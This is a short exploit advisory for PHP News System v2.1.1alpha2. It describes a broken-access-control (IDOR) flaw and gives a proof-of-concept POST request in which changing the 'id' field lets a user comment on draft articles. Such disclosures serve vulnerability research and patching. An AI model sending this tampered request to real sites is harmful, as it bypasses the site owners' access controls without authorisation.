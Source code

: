 # Exploit Title: PHP News System v2.1.1alpha2 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/phpns/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHP News System
## Version: v2.1.1alpha2
## Exploit Description:
## PHP News System v2.1.1alpha2 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add comment to article that is draft(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /shownews.php?a=3 HTTP/1.1
...
name=user3&email=user3%40test.com&website=&comment=user3&captcha=8&id=3(CHANGE HERE)&captcha_answer=NDg%3D
```